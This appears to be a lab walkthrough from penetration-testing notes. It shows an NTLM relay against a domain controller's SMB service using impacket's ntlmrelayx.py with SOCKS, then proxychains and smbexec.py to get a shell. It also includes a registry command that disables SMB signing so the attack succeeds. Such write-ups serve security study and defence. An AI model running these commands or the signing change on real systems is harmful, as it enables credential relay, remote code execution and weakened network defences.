








Target SMB service (and connection with proxychains)
kali@kali:$ cd /usr/share/doc/python3-impacket/examples
kali@kali:$ python3 ntlmrelayx.py -6 -wh attackerFox.daniele.local --target smb://<IpDomainController> --lootdir lootme -socks
OPTIONS:
◇

◇

◇ 
With the SOCKS option the authenticated sessions will be hold active, so it can later on be used and reused through a SOCKS proxy.
This will allow us to connect with the shell of the target(only possible with the SMB service)
OUTPUT:

1. This means that we have a socks proxy
socks

Now we have to connect with this SOCKS!
2. edit proxychains.conf
mousepad /etc/proxychains.conf

3. Use smbexec.py to connect
proxychains python3 smbexec.py daniele/pparker@<IpDomainController> -no-pass
◇ possible error: STATUS ACCESS DENIED

If we have as output STATUS_ACCESS_DENIED is because "SMB signing" is enabled (as we will seen in Increase Security chapter). Good for the company :)
PS> reg query HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanmanServer\Parameters /v RequireSecuritySignature
PS> reg add HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanmanServer\Parameters /v RequireSecuritySignature /t REG_DWORD /d 0 /f
After the change the DC need a restart
◇ possible error: NETBIOS connection with the remote host timed out

This happen because NETBIOS is not enabled over TCP/IP (IPv4)! Good for the company :)
To enable it:
Control Panel\Network and Internet\Network Connections → properties(right click) → Internet Protocol Version 4 (TCP/IPv4) → Advanced → WINS → Enable NetBIOS over TCP/IP

Bibliography:
https://www.secureauth.com/blog/playing-with-relayed-credentials/